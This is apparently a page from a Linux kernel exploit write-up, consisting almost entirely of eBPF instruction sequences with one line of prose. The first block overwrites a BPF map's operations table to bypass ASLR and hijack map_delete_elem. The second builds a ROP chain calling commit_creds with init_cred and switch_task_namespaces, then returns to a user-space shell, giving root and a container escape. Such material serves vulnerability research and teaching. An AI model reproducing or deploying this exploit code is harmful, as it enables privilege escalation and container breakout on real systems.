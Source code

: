 ```
        BPF_STX_MEM(BPF_DW, BPF_REG_0, BPF_REG_2, 0x3ff0), //Overwrite map->ops to bpf_array->value.
        BPF_LD_IMM64(BPF_REG_3, ARRAY_MAP_OPS_OFF),
        BPF_ALU64_REG(BPF_SUB, BPF_REG_1, BPF_REG_3), //calculate off to bypass ASLR
        BPF_LD_IMM64(BPF_REG_3, POP_RBX_RET),
        BPF_ALU64_REG(BPF_ADD, BPF_REG_3, BPF_REG_1), //calculate first gadget address

        //Now overwrite map->ops->map_delete_elem
        BPF_STX_MEM(BPF_DW, BPF_REG_0, BPF_REG_3, 0x3ff0+0x110+0x70), //0x110 = offset(bpf_array, value), 0x70 = offset(bpf_map_ops, map_delete)
        //Next, we try to store th kernel off at data_array_map
        BPF_MOV64_REG(BPF_REG_8, BPF_REG_1),
        //Get the map_value of data_array_map
        BPF_LD_MAP_FD(BPF_REG_1, pCtx->data_array_map),
        BPF_MOV64_IMM(BPF_REG_2, 0),
        BPF_STX_MEM(BPF_DW, BPF_REG_10, BPF_REG_2, -0x10),
        BPF_MOV64_REG(BPF_REG_2, BPF_REG_10),
        BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -0x10),
        BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_map_lookup_elem),
        BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 2),
        BPF_MOV64_IMM(BPF_REG_0, 0),
        BPF_EXIT_INSN(),
        BPF_STX_MEM(BPF_DW, BPF_REG_0, BPF_REG_8, 0),//Store the kernel off at &data_array_map->value[0]
        BPF_MOV64_IMM(BPF_REG_1, 1),
        BPF_STX_MEM(BPF_DW, BPF_REG_0, BPF_REG_1, 8),//Store 1 at &data_array_map->value[8] to mark we have written the map->ops->map_delete_elem
        BPF_MOV64_IMM(BPF_REG_0, 0),
        BPF_EXIT_INSN(),
```
And finally we do ROP in another eBPF program:
```
        //Pad stack
        BPF_LD_IMM64(BPF_REG_0, kernel_off + POP_RDI_RET),
        BPF_STX_MEM(BPF_DW, BPF_REG_10, BPF_REG_0, -0xa8),
        BPF_LD_IMM64(BPF_REG_0, kernel_off + INIT_CRED),
        BPF_STX_MEM(BPF_DW, BPF_REG_10, BPF_REG_0, -0xa0),
        BPF_LD_IMM64(BPF_REG_0, kernel_off + COMMIT_CREDS),
        BPF_STX_MEM(BPF_DW, BPF_REG_10, BPF_REG_0, -0x98),
        BPF_LD_IMM64(BPF_REG_0, kernel_off + POP_RDI_RET),
        BPF_STX_MEM(BPF_DW, BPF_REG_10, BPF_REG_0, -0x90),
        BPF_LD_IMM64(BPF_REG_0, 1),
        BPF_STX_MEM(BPF_DW, BPF_REG_10, BPF_REG_0, -0x88),
        BPF_LD_IMM64(BPF_REG_0, kernel_off + FIND_TASK_BY_VPID),
        BPF_STX_MEM(BPF_DW, BPF_REG_10, BPF_REG_0, -0x80),
        BPF_LD_IMM64(BPF_REG_0, kernel_off + MOV_RDI_RAX_POP_RBX_RET),
        BPF_STX_MEM(BPF_DW, BPF_REG_10, BPF_REG_0, -0x78),
        BPF_LD_IMM64(BPF_REG_0, 0),
        BPF_STX_MEM(BPF_DW, BPF_REG_10, BPF_REG_0, -0x70),
        BPF_LD_IMM64(BPF_REG_0, kernel_off + POP_RSI_RET),
        BPF_STX_MEM(BPF_DW, BPF_REG_10, BPF_REG_0, -0x68),
        BPF_LD_IMM64(BPF_REG_0, kernel_off + INIT_NSPROXY),
        BPF_STX_MEM(BPF_DW, BPF_REG_10, BPF_REG_0, -0x60),
        BPF_LD_IMM64(BPF_REG_0, kernel_off + SWITCH_TASK_NAMESPACES),
        BPF_STX_MEM(BPF_DW, BPF_REG_10, BPF_REG_0, -0x58),
        //BPF_LD_IMM64(BPF_REG_0, kernel_off + LEAVE_RET),
        //BPF_STX_MEM(BPF_DW, BPF_REG_10, BPF_REG_0, -0x20),
        BPF_LD_IMM64(BPF_REG_0, kernel_off + SWAGPGS_RET),
        BPF_STX_MEM(BPF_DW, BPF_REG_10, BPF_REG_0, -0x50),
        BPF_LD_IMM64(BPF_REG_0, kernel_off + IRETQ),
        BPF_STX_MEM(BPF_DW, BPF_REG_10, BPF_REG_0, -0x48),
        BPF_LD_IMM64(BPF_REG_0, (uint64_t)shell),
        BPF_STX_MEM(BPF_DW, BPF_REG_10, BPF_REG_0, -0x40),
```
